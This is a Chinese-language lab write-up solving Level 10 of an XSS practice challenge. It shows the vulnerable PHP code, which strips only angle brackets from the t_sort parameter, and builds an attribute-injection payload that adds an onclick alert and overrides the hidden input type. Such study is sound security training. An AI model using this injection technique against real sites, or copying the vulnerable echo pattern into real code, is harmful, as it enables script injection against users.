 ### Level-10

查看后端PHP代码

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

阅读代码可知，本关卡通过GET方式提交两个参数，分别名为`keyword`和`t_sort`

`keyword`参数会做`htmlspecialchars($str)`处理

`t_sort`参数中的尖括号会被过滤并替换为空，在过滤后会显示在前端的表单中，但是该表单的`type`属性是`hidden`即不会显示出来(若要显示需将`type`属性设置为`text`)

#### 构造XSS语句

由于尖括号会被过滤，因此提交参数不能出现标签语句。

本关卡并不涉及过滤关键字，但是需要对`type="hidden"`配置的`input`标签的属性作处理，而在HTML中当`input`标签中同时出现`type=“hidden”`和`type=“text”`两种属性时，会执行后者，即显示出来。

先提交两个普通GET参数查看页面源码代码`http://localhost/pentest/xsslabs/level10.php?keyword=2222&t_sort=888`

![](https://gitee.com/YatJay/image/raw/master/img/202203061058361.png)

两个参数会分别显示位置见上图

我们设法使得表单里的input标签出现onclick鼠标触发事件属性，并且由于需要鼠标点击，那么type属性也不能为hidden，当`input`标签中同时出现`type=“hidden”`和`type=“text”`两种属性时，会执行后者，因此可以添加`type=“text”`属性到`input`标签中去

原始input标签如下

```html
<input name="t_sort"  value="888" type="hidden">
```

目的input标签如下

```html
<input name="t_sort"  value="888" onclick="alert(1)" type="text" type="hidden">
```

则XSS语句如下(GET参数提交)

```html
?keyword=2222&t_sort=888" onclick="alert(1)" type="text
```
